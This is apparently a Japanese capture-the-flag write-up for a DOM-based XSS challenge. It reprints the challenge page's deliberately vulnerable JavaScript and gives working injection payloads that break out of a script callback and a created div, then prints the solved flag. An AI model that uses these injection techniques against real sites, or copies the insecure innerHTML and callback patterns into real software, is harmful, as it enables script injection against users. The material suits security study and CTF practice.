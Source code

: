 ttp://ec2-18-184-207-28.eu-central-1.compute.amazonaws.com/doom/

</textarea><input type=text value=x onmouseover=alert('flag1')>
とかでXSSが発火したのでXSSがあることがわかる。

ソースを見る

ページソース

<!doctype html>
<html>
	<head>
        <meta charset="UTF-8">
		<title>#Mr__Doo0M!#</title>
        <meta name=viewport content="width=device-width, initial-scale=1">
        <!--- style --->
        <style>
            html {
                background-color: teal;
            }
            .body {
                margin: 0;
                padding: 0;
                height: 100%;
                font-size:25px;
                display: grid;
                grid-template-columns: repeat(4, 1fr);
                grid-gap: 10px;
                grid-auto-rows: 200px;
                grid-template-areas:
                    ". a a ."
                    ". a a .";
                }

            .container {
                grid-area: a;
                align-self: center;
                justify-self: center;
                width: auto;
                display: inline-block;
                text-align: center;
                width: 10em;
            }
            #protagonist {
                display: inline-block;
                font-size: 10em;
                animation: 2s hover infinite;
                user-select: none;
            }
            #shadow {
                display: inline-block;
                width: calc(100% - 4em);
                border-radius: 50%;
                background: black;
                opacity: 0.5;
                animation: 2s shrink infinite;
                user-select: none;
            }

            @keyframes hover {
                50% { transform: translateY(-0.1em); }
            }

            @keyframes shrink {
                50% {
                    width: calc(100% - 3em);
                    opacity: 0.4;
                }
            }

            #selector {
                margin-top: 2em;
                user-select: none;
            }
            .character {
                user-select: none;
                cursor: pointer;
            }
        </style>
        
        
    </head>
    <!--------------------------------------------
        letter1 : alert('flag1')
        letter2 : alert('flag2')
    ---------------------------------------------->
	<body style="text-align:center;">
       <div class="body">
        <div class="container">
            <img id="protagonist" src="./1.png"/>
            <span id="shadow">&nbsp;</span>
            <div id="selector">
                <span class="character">🤠</span>
                <span class="character">👻</span>
                <span class="character">🤔</span>
                <span class="character">🤯</span>
                <span class="character">💯</span>
            </div>
        </div>
        </div>

        <center><div>
                        <form method="POST" action="">
                <textarea id="string" type="text" name="data">Comment#alert('flag1');</textarea><br>
                <input type="submit" value="submit"/>
            </form>
        
        </div>
        <div id="demo"></div></center>
        <!--- send Data 1 ----->
        <script>  
          
        var data = document.getElementById('string').value;
            function message1(s) {
                // try "data#data"
                var slice= s.split(/#/); 
		
                if (!(/^[a-zA-Z\[\]']*$/.test(slice[0]))){ return document.write('Invalid callback');}
		else{
                var obj = {'userdata': slice[1] };
                var json = '('+JSON.stringify(obj).replace(/</g, '\\u003c')+')';
                return document.getElementById('demo').innerHTML += "<script>"+slice[0]+json;}
            }
            console.log(message1(data));
      

            function message2(s) {
                // try "data#data"
                var d = s.split(/#/);
                var a = document.createElement('div');
                a.appendChild(document['create'+d[0]].apply(document, d.slice(1)));
                return document.getElementById('demo').innerHTML +=a.innerHTML;
            }
            console.log(message2(data));
        </script>
        


<!-----design resource --->

<script src="http://ajax.googleapis.com/ajax/libs/jquery/1.11.2/jquery.min.js"></script> 
<script src="jquery-asset.js"></script>
    
	</body>
</html>


■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■

        <script>  
          
        var data = document.getElementById('string').value;
            function message1(s) {
                // try "data#data"
                var slice= s.split(/#/); 
		
                if (!(/^[a-zA-Z\[\]']*$/.test(slice[0]))){ return document.write('Invalid callback');}
		else{
                var obj = {'userdata': slice[1] };
                var json = '('+JSON.stringify(obj).replace(/</g, '\\u003c')+')';
                return document.getElementById('demo').innerHTML += "<script>"+slice[0]+json;}
            }
            console.log(message1(data));
      

            function message2(s) {
                // try "data#data"
                var d = s.split(/#/);
                var a = document.createElement('div');
                a.appendChild(document['create'+d[0]].apply(document, d.slice(1)));
                return document.getElementById('demo').innerHTML +=a.innerHTML;
            }
            console.log(message2(data));
        </script>
■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■    

DOMベースXSSです

Function1つ目

'#';alert('flag1')//を入力した場合出力が下記のようになるので発火する

<script>'({"userdata":"';alert('flag1')//"}

前半部分
FLAG{th!5_!5_my_l0ng_


Function2つ目

var a = document.createElement('div');があるので<div>が生成されているため</div>で閉じる

Comment#></div><script>alert('flag2')</script>と入力すると発火する

Fl4g_F0r_5w33t_D0M!!}


FLAG{th!5_!5_my_l0ng_Fl4g_F0r_5w33t_D0M!!}
